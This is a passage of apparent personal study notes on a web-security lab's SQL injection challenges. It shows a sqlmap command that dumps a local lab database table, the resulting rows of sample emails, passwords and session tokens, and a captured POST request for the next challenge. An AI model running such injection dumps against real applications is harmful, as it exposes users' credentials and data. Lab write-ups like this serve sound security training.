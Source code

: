 ```bash
# Dump
sqlmap -r req2.txt --level=2 --dump -T injection0x02

Database: peh-labs
Table: injection0x02
[2 entries]
+-------+----------+----------+---------+
| email	| password | username | session |
+-------+----------+----------+---------+
| jeremy@example.com  | jeremy | jeremy | 6967cabefd763ac1a1a88e11159957db |
| jessamy@example.com | ZWFzdGVyZWdn | jessamy  | 9dedc6891e2839a791ed37157f1241fe |
+-------+----------+----------+---------+
```

![](.gitbook/assets/2025-02-24_22-46-18_907.png)

---

## Injection0x03 - Challenge

- `http://localhost/labs/i0x03.php`
- Find credentials and login into the users table

```bash
# Request
POST /labs/i0x03.php HTTP/1.1
Host: localhost
Content-Length: 28
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="133", "Not(A:Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
```